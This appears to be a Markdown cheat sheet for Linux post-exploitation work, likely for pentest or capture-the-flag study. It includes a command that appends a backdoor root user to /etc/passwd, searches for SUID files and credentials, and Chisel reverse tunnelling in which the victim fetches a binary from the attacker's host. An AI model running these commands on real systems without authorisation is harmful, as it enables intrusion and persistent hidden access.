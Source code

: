 # Persistence (Maintaining Access) - Privilege Escalation

```bash
echo "root2:`openssl passwd toor`:0:0:root:/root:/bin/bash" >> /etc/passwd # to create another root user
```


## Linux Privilege Escalation

```bash
sudo -l # checks current privileges
cat /etc/sudoers.d/[filename]

netstat -ltupn # listening ports
ss -tulw # listening ports

cat /etc/crontab # checks cronjob
```

### FIND

```bash
find / -iname "*config*.php" 2>/dev/null # looking for config files - cat [filename] | grep -i "db_"
find / -user root -perm -u=s 2>/dev/null # Find all files/dirs that are owned by root and have at least the SUID permission

find / -group [name] 2>/dev/null # Find all files/dirs owned by a group
find / -user [username] 2>/dev/null # Find all files/dirs owned by a user

-perm 444 # exactly readable by everyone
-perm /444 # only readable by everyone

-exec [command] [option] {}\; 2>/dev/null # {} corresponds to the files returned by the find command
```

### Capabilities

```bash
getcap -r / 2>/dev/null # scan the system for capabilities.
```

### GREP

```bash
grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" # grep ip addresses from your output.
grep -rni "somethingToLookFor" / 2>/dev/null
```

## Port forwarding

**[Using Chisel](https://github.com/jpillora/chisel)**

```bash
# on the attacker
cd /path/where/chisel/is # binary file
updog # or whatever cmdline to setup an http server

# on the victim
wget IP:PORT/chisel
chmod +x chisel # set it executable

# on the attacker
chisel server --reverse --port 9002 # port forwarding

# on the victim
./chisel client YOUR_IP:9002 R:9001:[redirectedIP]:[redirectedPort]

# Now you have access on the attacker's machine to : localhost:9001
```

**Using SSH**
```bash
ssh -N user@[IP_distant] -L [@_redirection_machine]:[port_redirection]:[IP_redirigee]:[port_redirige]
```

Example:
```bash
ssh -N user@10.10.10.10 -L 127.07.0.1:4441:192.168.0.100:80
```
On the `10.10.10.10` machine, `user` is running a web server on its `192.168.0.100:80` interface. Here, we're redirecting to the `127.0.0.1` address and port 4441. So from the browser, http://127.0.0.1:4441 is reachable. By specifying a proxy on `172.17.0.2:4440`, it is possible to modify the requests on Burpsuite if needed.


### Automated scripts for linux privesc

**[LSE - linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)**
```bash
wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh

curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh;chmod 700 lse.sh
```

**[LES - linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)**
```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh;chmod 700 les.sh
```

**[LinPEAS - Linux Privilege Escalation Awesome Script](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)**
```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -Lo lPEAS.sh;chmod 700 lPEAS.sh
```


